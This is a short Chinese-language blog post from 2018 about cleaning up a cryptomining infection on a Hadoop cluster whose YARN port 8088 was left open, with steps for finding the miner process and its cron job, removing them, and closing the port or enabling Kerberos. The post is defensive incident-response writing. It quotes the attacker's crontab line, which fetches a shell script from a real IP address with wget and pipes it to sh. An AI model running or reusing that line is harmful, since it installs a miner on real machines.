 ```yaml
---
slug: hadoop-mining-problem-solution
title: hadoop 挖矿 问题解决
authors: [ledai]
tags: [学习历程, hadoop 安全, 挖矿]
date: 2018-08-02
---
```


<h1>hadoop 挖矿 问题解决</h1>
<!-- truncate -->
之前一个搞网络安全的大佬就跟我说过hadoop http service 漏洞的问题 通过暴露的 hadoop 8088 yarn application 提交任务 挖矿

直到最近公司集群遇到这种情况 下面写下解决的相关办法 可以参考博客

https://blog.csdn.net/love_lixr/article/details/81454548 

1.首先yarn的 cpu会直接飙满  然后一直提交小任务 一般的挖矿程序无非是 定时器远程 下载挖矿程序 定时器执行 

2.第一步 查询yarn 的相关程序信息 `ps -ef | grep yarn`

 yarn 46185 1 99 May03 ?  4 - 19 : 04 : 28 / tmp / java - c / tmp / w.conf
 
这就是那个该死的主程序了 这时候不要着急kill 找到根源 

3.第二步查看 yarn 用户的相关定时任务 `crontab -l -u yarn`

***** wget -q -O - http://185.222.210.59/cr.sh | sh > /dev/null 2>&1

这玩意就是定时器了 

4.`crontab -r -u yarn`  删除yarn用户下所有的定时任务  然后 kill -9 PID 挖矿程序 删除 rm -rf /var/tmp/java  相关文件

5.这个时候 挖矿的问题是解决了 但是根本问题没有解决 那就是 8088端口开放问题  可以通过防火墙 或者绑定内网ip 来限制访问

另外最重要的是 可以通过开启kerberos hadoop 安全认证机制 有效解决这个问题。